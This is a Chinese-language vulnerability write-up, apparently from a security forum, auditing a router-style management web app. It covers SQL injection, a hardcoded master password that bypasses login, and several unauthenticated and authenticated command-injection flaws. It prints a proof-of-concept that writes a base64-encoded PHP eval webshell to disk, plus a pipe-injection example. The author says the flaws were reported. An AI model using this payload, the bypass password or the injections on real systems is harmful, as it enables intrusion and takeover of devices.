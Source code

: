 [![](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-38d42dcad8a5d10d8cc4ddf835a6f2c95fe4a586.jpg)](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-38d42dcad8a5d10d8cc4ddf835a6f2c95fe4a586.jpg)  
看到登录页面，先试试弱口令，目录扫描试试未授权等  
[![](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-0cdcb93f8641dc667c805dfbca9b58fe2f34ba90.png)](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-0cdcb93f8641dc667c805dfbca9b58fe2f34ba90.png)  
[![](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-243bfa42cc56c7ea5653fe5e3abd5bb6dda58b57.png)](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-243bfa42cc56c7ea5653fe5e3abd5bb6dda58b57.png)  
看到其中有个password.inc，看到password就直接点进去  
[![](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-e70d036a2e55401ca3badeb0085fac8bd5197dbd.png)](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-e70d036a2e55401ca3badeb0085fac8bd5197dbd.png)  
可惜只有admin  
尝试admin admin  
[![](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-8810c3ee7eeb6300eec3480bb1210fd73ec5d57e.jpg)](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-8810c3ee7eeb6300eec3480bb1210fd73ec5d57e.jpg)  
[![](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-c3a960bc5dd12badf8619ea62b7de61887df1354.png)](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-c3a960bc5dd12badf8619ea62b7de61887df1354.png)

可惜，看来只是个账户名而已了，其他的文件也看了看，不能直接进后台，也就一点目录遍历而已

抓包看看  
正常发包  
[![](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-ccaf587a511658e54aefe1f52f6f334cfa5d2a98.png)](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-ccaf587a511658e54aefe1f52f6f334cfa5d2a98.png)  
这是name加了单引号发的包  
[![](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-dc15ed0bea540d59e88338622d08cc1547a84ead.png)](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-dc15ed0bea540d59e88338622d08cc1547a84ead.png)  
可以发现，两次发包的回显并不一致，这里盲猜就觉得有sql，于是直接跑sqlmap（脚本小子可不会手注）  
[![](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-d3ab28427d9eb2f3283483a8f00059df048cfddc.png)](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-d3ab28427d9eb2f3283483a8f00059df048cfddc.png)  
成功，但是跑不出数据库信息，想想其他办法，跑tables，可以跑出数据  
[![](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-3740486ac3248204d140757d5f4896e8fdbca332.png)](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-3740486ac3248204d140757d5f4896e8fdbca332.png)

经过长时间的搜索，终于搞到了这套源码(公开)  
大佬们都是通读代码，不用工具凭感觉挖，我这种脚本小子还是用工具先跑一遍吧  
[![](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-309f61f90d7317c57a4fb24907e35ec8f93e1798.png)](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-309f61f90d7317c57a4fb24907e35ec8f93e1798.png)  
先去找登录页面的代码审一下  
[![](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-234fa903d3bff344eaa15f6d4842f08b690f792d.png)](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-234fa903d3bff344eaa15f6d4842f08b690f792d.png)  
发现只有一行，看的眼睛要瞎了，稍微排个版  
[![](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-3baab6ba329ac1e50b92da1c5c28538d53ff4f65.png)](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-3baab6ba329ac1e50b92da1c5c28538d53ff4f65.png)

然后开始审计，23行，根据Name传参到webname，然后转到23行代入数据库查询，导致sql注入，不过除了这个注入洞，还意外发现了万能密码，看下图

[![](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-23837130e6f90dea3e1a45623cb4ae2dda6e7b19.png)](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-23837130e6f90dea3e1a45623cb4ae2dda6e7b19.png)  
第4行为post接收传过来的密码  
[![](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-fa5b59e2e6c405ead415b4419d8d3502fd858394.png)](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-fa5b59e2e6c405ead415b4419d8d3502fd858394.png)

然后22,23行是从数据库中查询，是否有匹配webname（post传过来的参数Name）的密码，在29行进行逻辑判断  
如果数据库查询的密码和post传参的密码匹配，或者密码等于hassmedia，就可以直接进到home.php界面，那么我们直接令密码等于hassmedia，就可以无需知道密码进入后台了

可以看到，当密码等于hassmedia时，响应包直接302  
[![](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-1b24957e72a942ebbe2c14f26ff6b7d38083f5df.png)](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-1b24957e72a942ebbe2c14f26ff6b7d38083f5df.png)

成功进入后台  
[![](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-9292d94c56bf0adb44e9909865c41f1df8323cb3.png)](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-9292d94c56bf0adb44e9909865c41f1df8323cb3.png)

我们知道，这种管理界面一般都会有ping拼接rce的，找一下

[![](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-4b1fb6b84d6baee615f86e665d8eb1098317ea6e.png)](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-4b1fb6b84d6baee615f86e665d8eb1098317ea6e.png)

[![](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-ca316960b66b0a699e4b56bf0f96871f61f8ebd7.png)](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-ca316960b66b0a699e4b56bf0f96871f61f8ebd7.png)  
抓包查看  
[![](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-f5b71a5917d5ffd8fb48a35dbbd373f5387a267f.png)](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-f5b71a5917d5ffd8fb48a35dbbd373f5387a267f.png)

尝试管道符拼接，拿下rce  
[![](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-88d61909f67dfc33c81d5f61f03fbf76b47b2d5e.png)](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-88d61909f67dfc33c81d5f61f03fbf76b47b2d5e.png)

然后看看源码，文件在manager/ipping.php

先效验一步登没登陆，没登录就直接退出  
[![](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-84db88ca3ecc48695d1e86bb80695b59d8f6756e.png)](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-84db88ca3ecc48695d1e86bb80695b59d8f6756e.png)  
可惜没有前台rce了，那就看下后台rce的代码吧  
[![](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-00f19ffbf08f4a32352916ec93adb1003a79487a.png)](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-00f19ffbf08f4a32352916ec93adb1003a79487a.png)

整段代码的逻辑语句  
1 post接收ipaddr参数，赋值到datip参数  
2 shell\_exec datip，并将这个语句赋值到output参数  
3 echo直接输出output  
可以看到，全程无任何过滤，所以可以直接rce

那么会不会有前台rce呢  
[![](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-0402ccea580286d0db8e7d778af0f030fb290915.png)](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-0402ccea580286d0db8e7d778af0f030fb290915.png)  
还真有，看下图  
[![](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-8ec0bd47ea9193c7bf4fddef340723927c965625.png)](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-8ec0bd47ea9193c7bf4fddef340723927c965625.png)  
可以发现这段代码没有任何验证登录，逻辑如下  
1 get接收参数file赋值到file  
2 然后转到del\_file  
3 然后test直接调用del\_file  
4 exec直接输出exec  
也是全程无过滤，构造poc：

file=1.txt  
echo PD9waHAgQGV2YWwoJF9QT1NUWydjJ10pOw== | ba  
se64 -d &gt; xxx.php  
[![](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-f86aedcb590317a57489428291e676e1e859cc26.png)](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-f86aedcb590317a57489428291e676e1e859cc26.png)  
[![](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-04f98859096d7184c247eb69de03d8838f902095.png)](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-04f98859096d7184c247eb69de03d8838f902095.png)

除此之外还发现了很多的rce，为了方便浏览，先说前台rce，然后再说后台rce

前台rce 1：  
[![](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-a70bfd3fc9d86e6a88e4b13ae48109feae75e2b0.png)](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-a70bfd3fc9d86e6a88e4b13ae48109feae75e2b0.png)  
逻辑线：  
1 没有检验登录  
2 post接收addflag bodaddr bondmask bondgw  
3 判断addflag是否等于1，如果是就执行下列语句  
4 拼接其他参数到$cmd中  
5 exec echo  
6 rce

前台rce 2：  
[![](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-81227af1a45a3a6aa427b4b392dc38963a0b1cd7.png)](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-81227af1a45a3a6aa427b4b392dc38963a0b1cd7.png)  
逻辑线

1 无效验登录  
2 赋值ip\_dev flag sipdev  
3 判断flag是否等于1，是的话执行下列语句  
4 拼接参数  
5 exec，echo  
6 rce

然后审着审着seay出问题了..所以下面就用phpstorm的界面了  
后台rce 1  
[![](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-39a023ed9ad9e664a59a6e70d498995cdbefc037.png)](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-39a023ed9ad9e664a59a6e70d498995cdbefc037.png)

逻辑线

1 前面判断了是否登录  
2 判断actiontype是否等于RestartChannel  
3 接收传参  
4 拼接cmdurl  
5 exec输出cmdurl  
6 rce

后台rce2  
[![](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-2a680a0287cefa5aaae1929a1557804a4f5eebe0.png)](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-2a680a0287cefa5aaae1929a1557804a4f5eebe0.png)  
第一行先判断了登录  
往下翻，看到这段代码  
[![](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-4d0d385fa6019825df943c2091f9c1fd4d23c468.png)](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-4d0d385fa6019825df943c2091f9c1fd4d23c468.png)  
逻辑线

1 判断用户是否登录  
2 赋值ip\_addr ip\_dev  
3 判断addflag是否为1  
4 判断ipaddr和ip mask是否为空  
5 拼接参数到cmd  
6 exec echo  
7 rce

后台rce 3  
[![](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-3d00e325afbefe87b08c6b87e3817b3ca7ecc6f5.png)](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-3d00e325afbefe87b08c6b87e3817b3ca7ecc6f5.png)  
逻辑线

1 判断是否登录  
2 判断actiontype是否等于reboot  
3 获取一个dev参数赋值devname  
4 如果devname存在ppp执行下列语句，不过也可以直接通过else的system执行  
5 为了方便就直接跳到else语句，给devName直接管道符拼接就行了，例如|ls  
6 system执行  
7 rce

除了这些洞，还有很多，不过没啥时间了剩下的就暂时不写了，后面如果有时间的话再补点，技术含量不高，路由管理之类的一般都会有rce，算是一个小思路入门文吧，文章内容如有任何错误，打码不全可以定位目标或者对不上号的，可以加我微信说明，感谢各位大佬们的指点，微信号 zacaq999  
文章所有洞均已上交